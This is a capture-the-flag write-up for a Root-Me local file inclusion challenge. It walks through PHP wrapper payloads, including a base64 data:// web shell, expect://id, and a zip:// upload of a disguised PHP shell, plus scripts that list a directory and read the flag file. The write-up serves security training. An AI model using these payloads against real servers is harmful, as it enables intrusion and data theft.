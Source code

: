 ## Description
Retrieve the flag.
## Hints 
Abbreviated LFI
## Solution
Let follow the page 

https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion#lfi--rfi-using-wrappers

#### Wrapper php://filter

 `/index.php?page=php://filter/convert.base64-encode/resource=index.php`

The page returned nothing.

#### Wrapper data://

 `?page=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4=`

The page return: **_page name too long_**

#### Wrapper expect://
 `index.php?page=expect://id`

![image](https://github.com/user-attachments/assets/192b48d3-0e8e-49c9-afac-ed431f0cde94)

#### Wrapper zip://

The page limit the payload, so I got the file name short. 

```php
echo "<pre><?php system($_GET['cmd']); ?></pre>" > p.php;
zip p.zip p.php;
mv p.zip a.jpg
```
Upload the archive and access the file using the wrappers: `http://challenge01.root-me.org/web-serveur/ch43/index.php?page=zip://tmp/upload/aVK8jSdHa.jpg%23p`

![image](https://github.com/user-attachments/assets/0087c972-8fec-4902-aa2d-2deb97728314)

The system() function has been disabled, likely through the disable_functions directive in the php.ini configuration file. 

To bypass this restriction, I used another payload: `echo "<pre><?php echo file_get_contents('index.php'); ?></pre>"` for the zip file.

The web return the source code but nothing seemed to be the flag.

With the given code in https://stackoverflow.com/questions/11457363/get-all-file-names-from-a-directory-in-php, I modified and got the payload:
```php
echo '<pre><?php 
$dir = "."; 
if ($handle = opendir($dir)) {
    while (false !== ($file = readdir($handle))) {
        echo $file . "<br>";
    }
    closedir($handle);
} 
?></pre>' > p.php;
zip p.zip p.php;
mv p.zip a.jpg
```
The page return

![image](https://github.com/user-attachments/assets/003f0f64-ecdf-4d86-a4b2-c7cb0f40d002)

Then I need to modify the PHP script to read the contents of the flag file, I used the payload `echo '<pre><?php echo file_get_contents("flag-mipkBswUppqwXlq9ZydO.php"); ?></pre>' > p.php` and got the flag.




